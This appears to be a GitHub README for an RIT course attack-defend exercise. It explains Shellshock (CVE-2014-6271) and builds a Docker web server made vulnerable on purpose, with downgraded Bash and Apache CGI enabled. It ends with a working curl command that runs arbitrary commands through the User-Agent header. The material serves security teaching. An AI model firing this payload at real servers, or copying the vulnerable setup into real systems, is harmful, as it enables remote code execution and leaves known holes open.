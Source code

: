# CSEC-742-Project
**Attack Defend Exercise for Computer System Security (RIT CSEC-742)**

**Gain understanding and experience with vulnerabilities and exploitation**

Construct a vulnerable system for others to attack and configure a monitoring system to observe attacks. Set up a VM, configure it to be susceptible to an exploit, and connect it to the private subnet in the RIT Virtual Lab Environment. Attack other students' infrastructures to discover their vulnerabilities, observe attacks against your infrastructure, and create offensive and defensive reports reviewing the techniques you used or observed.

## Timeline
- Part 1: Exploit working (11/1)
- Part 2: Monitoring working (11/11)
- Part 3: Competition (11/13-11/25)
- Part 4: Writeups - Offensive and Defensive (11/29)
- Part 5: Comments and feedback for classmates (12/9)

## Videos
- [RIT CSEC-742 Computer System Security - ADE 1 Exploitable](https://www.youtube.com/watch?v=9JE03HnkOBg)
- RIT CSEC-742 Computer System Security - ADE 2 Monitor
- [RIT CSEC-742 Computer System Security - ADE 3 Attack](https://www.youtube.com/watch?v=gx6EZFuSZZ8)

## Exploit Overview
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/4/44/Shellshock-bug.png/1024px-Shellshock-bug.png" alt="Shellshock Logo" width="100"/>

**[Shellshock (CVE-2014-6271)](https://www.exploit-db.com/exploits/34765)**

Shellshock is a group of security bugs in Unix’s default Bash (Bourne-Again) shell which allow for a user to run arbitrary code on vulnerable devices that they can connect to. These vulnerabilities were discovered between September 12th and September 24th, 2014 with patches being co-developed by vulnerability researchers and the Bash maintainers prior to disclosure.  The initial discovery showed that Bash would unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. There were many ways that the bug could be leveraged, including via the internet through unpatched web servers, SSH servers, DHCP clients, and mail servers. Attackers began exploiting Shellshock within hours of disclosure, attacking various entities such as Akamai, Yahoo!, and the United States Department of Defense.

## Implementation Details

### Docker-Compose:
[Docker Hub](https://hub.docker.com/r/wwt92829/csec-472-project)
```
version: '3'

services:

  server:
    image: wwt92829/csec-472-project
    container_name: server
    ports:
      - "80:80"
```
1. Download a vulnerable version of Bash (this image uses 4.2) from [GNU's website](http://ftpmirror.gnu.org/bash/).
2. Create a web server (this image uses Apache httpd) and enable support for CGI. In httpd.conf:
    - Uncomment  `LoadModule cgid_module modules/mod_cgid.so` and `LoadModule cgi_module modules/mod_cgi.so`
    - Uncomment `ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"`
3. Create and frame a shell script with `Content-type: text/html` in an HTML file. The shell script should be stored in the cgi-bin directory specified in httpd.conf.
4. Build a Dockerfile from the [httpd](https://hub.docker.com/_/httpd) Docker image.
    - Update the package lists and install dependencies
    - Downgrade Bash by installing the old version with dpkg
    - Copy httpd.conf to the apache2/conf directory
    - Copy the HTML file with the framed shell script to the htdocs or /var/www/html directory
    - Set the shell script as executable using chmod and place it in the cgi-bin directory
5. Create a Docker-Compose file to build the container and expose the desired port on the host to the container's port 80.

### Run exploit:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c '<command>'" http://<ip address>/cgi-bin/toucan
```
Set the <ip address> or hostname of the server to run the exploit on. The Shellshock exploit is invoked by changing the user agent to include a variant of `() { :; };` and replacing `<command>` with any command that will now be executed as the daemon user.
